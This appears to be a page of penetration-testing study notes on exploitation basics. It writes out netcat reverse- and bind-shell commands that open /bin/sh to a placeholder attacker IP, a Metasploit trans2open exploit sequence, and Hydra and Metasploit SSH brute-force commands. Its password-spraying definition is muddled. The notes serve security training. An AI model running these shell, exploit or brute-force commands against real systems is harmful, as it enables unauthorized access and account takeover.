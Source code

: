 # Exploitation Basics

## Reverse Shells vs Bind Shells

### Reverse Shell

A victim connects to us.

#### Attacker

```bash
nc -lvnp 4444  # Listening
```

#### Target

```bash
nc <Attack IP> -e /bin/sh  # Connecting
```

### Bind Shell

We connect to the victim.

#### Attacker

```bash
nc <Target IP> 4444  # Connecting
```

#### Target

```bash
nc -lvnp 4444 -e /bin/sh  # Listening
```

## Staged vs Non-Staged Payloads

### Staged

* Sends payload in stages
* Can be less stable
* Example: `windows/meterpreter/reverse_tcp`

### Non-staged

* Sends exploit shellcode all at once
* Larger in size and won't always work
* Example: `windows/meterpreter_reverse_tcp`

## Gaining Root with Metasploit

### Example

```bash
searchsploit samba 2.2
# Found a 'trans2open' vulnerability with (Metasploit) mentioned
msfconsole
search trans2open
use exploit/linux/samba/trans2open
set RHOSTS <Target IP>
run / exploit
# Session kept opening and closing...
# Looking at the options we see the payload linux/x86/meterpreter/reverse_tcp
# Since this didn't work we can change it to a Non-staged payload
set payload linux/x86/shell_reverse_tcp
run / exploit
```

## Manual Exploitation

### Example

Finding an Apache mod\_ssl < 2.8.7 vulnerability

Used Google to identify there is an exploit called OpenLuck on GitHub

Followed the steps on GitHub to download, install, compile, and run the exploit.

## Brute Force Attacks

### Tools

#### Hydra

```bash
hydra -l <user> -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<IP> -t 4
```

#### Metasploit

```bash
search ssh
use auxiliary/scanner/ssh/ssh_login
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set RHOSTS <IP>
run
```

## Credential Stuffing and Password Spraying

### What is Credential Stuffing?

Injecting breached account credentials in hopes of account takeover by testing large volumes of stolen usernames and passwords across multiple sites.

### What is Password Spraying?

Injecting breached account credentials in hopes of account takeover by attempting to access a large number of sites using known account identifiers (usernames) with a few commonly used passwords.
